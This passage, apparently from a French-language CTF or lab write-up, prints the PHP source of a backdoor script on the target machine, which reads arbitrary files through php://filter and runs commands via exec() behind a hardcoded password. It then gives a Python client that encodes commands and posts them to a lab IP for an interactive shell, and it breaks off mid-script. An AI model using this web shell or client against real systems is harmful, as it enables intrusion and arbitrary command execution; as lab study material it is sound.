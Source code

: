 ```php
        return substr($decoded, 4);
    }

    return false;
}

if ($_SERVER['REQUEST_METHOD'] === 'GET' && isset($_GET['file'])) {
    $file = $_GET['file'];
    if (stripos($file, 'phpinfo') !== false) {
        exit('Access Denied');
    }
    $filterUrl = 'php://filter/convert.base64-encode/resource=' . $file;
    $data = @file_get_contents($filterUrl);
    if ($data === false) {
        exit('Failed to read file');
    }
    echo base64_decode($data);
    exit;
} elseif ($_SERVER['REQUEST_METHOD'] === 'POST' && isset($_POST['auth']) && isset($_POST['payload'])) {
    $auth = $_POST['auth'];
    $payload = $_POST['payload'];

    if ($auth !== 'LetMeIn123!') {
        exit('Invalid Auth Token.');
    }

    $command = decrypt($payload);
    if ($command !== false) {
        $output = exec($command);
        echo "<pre>$output</pre>";
    } else {
        echo "Payload decode failed.\n";
    }
    exit;
} else {
    echo "Nothing to see here.";
}
?>
```

On trouve une autre fonctionnalité du script. On peut faire exécuter des commandes si elles sont encodées correctement (avec un préfixe, encodé en base64 puis retourné). J'ai écrit ce petit client :

```python
from base64 import b64encode

import requests

sess = requests.session()
while True:
    command = input("$ ").strip()
    if command == "exit":
        break

    payload = b64encode(f"cmd:{command}".encode()).decode()[::-1]

    response = sess.post(
            "http://192.168.242.130/ShadowSec/bydataset.php",
            data={
                "auth": "LetMeIn123!",
                "payload": payload
            }
    )
```